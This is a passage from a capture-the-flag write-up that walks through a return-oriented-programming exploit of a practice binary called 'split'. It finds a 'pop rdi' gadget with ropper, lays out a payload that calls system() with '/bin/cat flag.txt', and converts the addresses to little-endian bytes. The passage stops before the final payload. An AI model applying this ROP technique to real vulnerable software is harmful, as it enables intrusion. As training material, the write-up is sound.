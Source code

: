 #### Finding POP\_RDI Gadget with ropper:

```
ropper -f split --search "pop rdi"
[INFO] Load gadgets for section: LOAD
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop rdi

[INFO] File: split
0x00000000004007c3: pop rdi; ret
```

**Granting us our ROP Gadget:**

```
0x00000000004007c3
```

This is the address that needs to go onto the stack first, followed by the `"/bin/cat flag.txt"` address.

**To iterate further:**

So, <mark style="color:yellow;">inject the ROP gadget followed by the string address</mark>. This will <mark style="color:yellow;">`POP`</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">the</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">`"/bin/cat flag.txt"`</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">off the stack and into the</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">`RDI`</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">register and execute the</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">`system()`</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">call</mark>.

#### Payload Structure:

<mark style="color:green;">Padding + ROP Gadget +</mark> <mark style="color:green;"></mark><mark style="color:green;">`"/bin/cat flag.txt"`</mark> (this will <mark style="color:yellow;">`POP`</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">the value off the stack and place it in the</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">`RDI`</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">register for the FIRST parameter of the next called function</mark> -- in this case, `system()`) <mark style="color:green;">+</mark> <mark style="color:green;"></mark><mark style="color:green;">`system()`</mark>.

#### Using python3 to Craft a Payload:

**Before we do this, we need to convert the addresses into little-endian format for our payload:**

```
ROP Gadget: 0x00000000004007c3 = \xc3\x07\x40\x00\x00\x00\x00\x00\

"/bin/cat flag.txt" Offset: 0x601060 = \x60\x10\x60\x00\x00\x00\x00\x00

system(): 0x000000000040074b = \x4b\x07\x40\x00\x00\x00\x00\x00
```

<mark style="color:yellow;">**Armed with that information, we can now grab our flag with the following payload**</mark>**:**
